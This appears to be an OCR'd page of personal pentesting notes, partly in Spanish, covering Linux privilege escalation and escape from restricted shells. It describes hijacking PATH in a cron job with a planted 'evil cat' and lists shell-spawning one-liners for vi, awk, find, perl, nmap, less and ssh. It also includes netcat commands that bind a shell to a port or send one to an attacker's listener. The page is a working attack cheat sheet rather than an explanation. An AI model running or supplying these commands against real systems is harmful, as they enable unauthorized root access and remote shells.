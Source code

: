 si un cron corre un binario o script  SIN PATH  ,  ejemplo
```
 cat /home/sarasa
 ```
 dependiendo de los permisos podriamos cambiar el path de quien corre el comando y poner  PRIMERO el
 path a donde metemos nuestro evil cat.

## Common
```
si tenes chsh podes cambiar la shell a  /bin/bash
bin/sh
cp /bin/sh .; sh
ftp -> !/bin/sh
gdb -> !/bin/sh
more/ less/ man -> !/bin/sh
vi -> :!/bin/sh : cuando salis de vi terminas con la shell .
scp -S /tmp/getMeOut.sh x y : Refer Breaking out of rbash using scp
awk ‘BEGIN {system(“/bin/sh”)}’
find / -name someName -exec /bin/sh ;
tee: echo "Your evil code" | tee script.sh
ssh username@IP -t "/bin/sh"
ssh username@IP -t "bash --noprofile"
bash
perl -e 'exec "/bin/sh";'  
/bin/sh -i  
exec "/bin/sh";  
echo os.system('/bin/bash')  
/bin/sh -i  
ssh user@$ip nc $localip 4444 -e /bin/sh  
export TERM=linux  

vi-->       :!bash
vi-->       :set shell=/bin/bash:shell
awk-->      awk 'BEGIN {system("/bin/bash")}'
find-->     find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
perl-->     perl -e 'exec "/bin/bash";'
Nmap  
    nmap -V     <Nmap version 2.02 - 5.21 had an interactive mode  
    nmap --interactive  
    nmap> !sh  

Vim  
    Modify system file, e.g. passwd?  
    vim.tiny  
    - Press ESC key  
    :set shell=/bin/sh  
    :shell  

find  
    touch pentestlab  
    find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;  

Bash  
    bash -p      

More  

Less  
    less /etc/passwd  
    !/bin/sh  

Nano  
    Can you modify system file?  
```